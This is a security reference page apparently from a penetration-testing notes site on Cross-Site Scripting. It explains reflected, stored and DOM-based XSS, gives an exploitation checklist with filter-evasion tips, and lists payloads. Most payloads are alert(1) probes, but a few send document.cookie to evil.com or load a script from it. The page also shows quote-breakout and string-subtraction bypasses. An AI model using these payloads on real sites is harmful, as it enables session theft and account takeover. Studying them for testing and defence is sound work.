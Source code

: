 ```yaml
---
layout: page
title: Cross-Site Scripting (XSS)
parent: Web Application
grand_parent: Attacks
---
```

# {{ page.title }}
{: .no_toc }

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
- TOC
{:toc}
</details>

---
Cross-Site Scripting is a type of injection where JavaScript code can be injected into a website. A XSS attack is where an attacker has embedded malicious code, often in the form of a browser-side script that is then sent to an unsuspecting user when they request the webpage.

These attacks can occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

There are 3 types of XSS attacks:
- [Reflective XSS](#reflective-xss) - Injected code is reflected back to a user by the web application
- [Stored XSS](#stored-xss) - The injected code is stored on the webserver and is requested by the user
- [DOM-Based XSS](#dom-based-xss) - The injected code manipulates the client-side DOM, resulting in the execution of code on the victim's browser. 

## Reflective XSS
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes this as it appears to have come from a 'Trusted' server.

This can lead to various security issue, such as stealing user information (eg. credentials or tokens) or performing unauthorised actions on behalf of a user.

These attacks are often initiated by creating malicious links or forms that exploit vulnerabilities in the target application.

Sometimes referred to as Non-Persistent or Type-II XSS.

## Stored XSS
Stored attacks are those where the injected script is permanently stored on the target server, such as in a database, comment section, message forum etc. The victim then retries the script from the server when it requests the stored information.

Unlike reflective XSS, the injected code is not reflected back immediately but rather stored on the target server and delivered to other users later. This makes stored XSS attacks particularly dangerous, as the malicious code affects multiple users and can lead to unauthorized access, data theft, or even complete website compromise.

Sometimes referred to a Persistent or Type-II XSS.

## DOM-Based XSS
This attack occurs when an attacker injects and manipulates malicious code into the Document Object Model (DOM) of a webpage. In DOM-Based XSS attacks the malicious injected code is usually executed by JavaScript directly in the victim's browser, without being sent to the server.

The vulnerable webpage often includes JavaScript that reads data from the URL or user input and then dynamically updates the DOM, but fails to properly sanitize or validate the input, allowing injected code to be executed.

## Impacts of XSS
- Impersonating or masquerading as the victim user
- Hijacking a user's session
- Perform unauthorized actions on behalf of the user
- Steal sensitive information
- Perform phishing attacks
- Capture user credentials
- Capture keystrokes
- Deface the website / Edit its content
- Inject trojan functionality into the website

## Exploiting XSS
When exploiting an XSS vulnerability, you need to understand how the application behaves towards specific payloads. The following checklist can be used before exploiting an XSS vulnerability:
- Find the backlisted/filtered characters. XSS locations can be used for this: `'';! - "<XSS>=&{()}`
- Observe what tags are blocked by Web Application Firewall (WAF) and which keywords are allowed (`iframe`, `img`, `body` etc.)
- Try character encoding ([URL encoding](https://www.w3schools.com/tags/ref_urlencode.ASP), [Double URL encoding](https://owasp.org/www-community/Double_Encoding), UTF-8 Unicode encoding, Long UTF-8 Unicode encoding, Hex encoding etc.)
- Try [XSS using HTML quote encapsulation](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation)
- Try [URL string evasion](https://docs.trellix.com/bundle/network-security-platform-application-notes/page/GUID-CCB698B2-851B-48DE-8E1F-93968ED36C2E.html)
- Create the payload list according to the allowed keywords
- Brute-force the application with the XSS payload list you just created

> Note: Double URL encoding can be tried since the first decoding process is performed by HTTP protocol and the resultant encoded URL will bypass the XSS filter.

### XSS Cheatsheet
A very useful OWASP XSS [cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).
Another useful [cheatsheet repo & other links](https://github.com/RenwaX23/XSS-Payloads/tree/master)

#### XSS Locators
{% highlight HTML %}
'';!--"<XSS>=&{()}
{% endhighlight %}

#### Classic Payloads
{% highlight HTML %}
<svg/onload=alert(1)>
<script>alert(1)</script>
<script    >alert(1)</script>
<ScRipT>alert(1)</scRipT>
<%00script>alert(1)</script>
<script>al%00ert(1)</script>
{% endhighlight %}

#### HTML Tags
{% highlight HTML %}
<img/src=x a='' onerror=alert(1)>
<IMG """><SCRIPT>alert(1)</SCRIPT>">
<img src=`x`onerror=alert(1)>
<img src='/' onerror='alert("kalisa")'>
<IMG SRC=# onmouseover="alert('xss')">
<IMG SRC= onmouseover="alert('xss')">
<IMG onmouseover="alert('xss')">
<BODY ONLOAD=alert('XSS')>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<SCRIPT SRC=http:/evil.com/xss.js?< B >
"><XSS<test accesskey=x onclick=alert(1)//test
<svg><discard onbegin=alert(1)>
<script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
<script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>
{% endhighlight %}

The `javascript:alert(1);` can be injected to run in-line java (eg. in a URL)

### Useful Example Situations
#### Bypass Angle Bracket Filter
In a Reflective XSS where the `<` & `>` are both blacklisted/encoded. You can still inject code if the user input is injected within a tag already. This relies on the `"` not being escaped as `&quot`.

{% highlight HTML %}
" onmouseover="alert(1)
{% endhighlight %}

Would result in something like a search box like:
{% highlight HTML %}
<input type=text placeholder='Search the blog...' name=search value="{{ user.input }}">
{% endhighlight %}

Being turned into:
{% highlight HTML %}
<input type=text placeholder='Search the blog...' name=search value="" onmouseover="alert(1)">
{% endhighlight %}

#### String Subtraction Injection
If a variable is set of the user input eg.
{% highlight js %}
var userInput = '';
{% endhighlight %}

If you then take a string and subtract a function from it, it will in turn run the function. Eg.
{% highlight js %}
var userInput = ''-alert(1)-'';
{% endhighlight %}

So the payload would be `'-alert(1)-'`